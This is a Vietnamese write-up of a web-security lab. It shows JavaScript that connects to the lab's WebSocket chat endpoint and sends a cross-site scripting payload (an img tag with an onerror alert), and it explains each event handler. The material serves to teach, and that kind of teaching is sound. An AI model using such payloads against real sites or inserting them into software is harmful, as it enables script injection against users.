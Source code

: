 
**mình đã thực hiện:**

- Kết nối WebSocket:

```javascript
const socket = new WebSocket(
  "wss://0a7600b303ef21c780ad0ddd003a0074.web-security-academy.net/chat"
);
```

Tạo một đối tượng WebSocket và kết nối đến địa chỉ WebSocket server `'wss://0a7600b303ef21c780ad0ddd003a0074.web-security-academy.net/chat'`.

- Sự kiện khi kết nối mở:

```javascript
socket.addEventListener("open", (event) => {
  // ...
});
```

Sự kiện này được kích hoạt khi kết nối WebSocket được mở thành công. Trong nó, bạn có thể thực hiện các hành động sau khi kết nối.

- Gửi dữ liệu:

```javascript
const data = {
  message: "<img src=1 onerror='alert(1)'>",
};
socket.send(JSON.stringify(data));
```

Tạo một đối tượng dữ liệu data với thuộc tính message chứa chuỗi JSON `"<img src=1 onerror='alert(1)'>"`. Sau đó, sử dụng JSON.stringify(data) để chuyển đối tượng JSON thành chuỗi và gửi nó qua kết nối WebSocket bằng socket.send().

- Sự kiện khi nhận dữ liệu từ server:

```javascript
socket.addEventListener("message", (event) => {
  // ...
});
```

Sự kiện này được kích hoạt khi dữ liệu được nhận từ server thông qua kết nối WebSocket. Trong nó, bạn có thể xử lý dữ liệu nhận được.

- Sự kiện khi kết nối đóng:

```javascript
socket.addEventListener("close", (event) => {
  // ...
});
```

Sự kiện này được kích hoạt khi kết nối WebSocket được đóng. Trong nó, bạn có thể thực hiện các hành động sau khi kết nối đã đóng.

![image](https://hackmd.io/_uploads/BJ1EXeY5a.png)
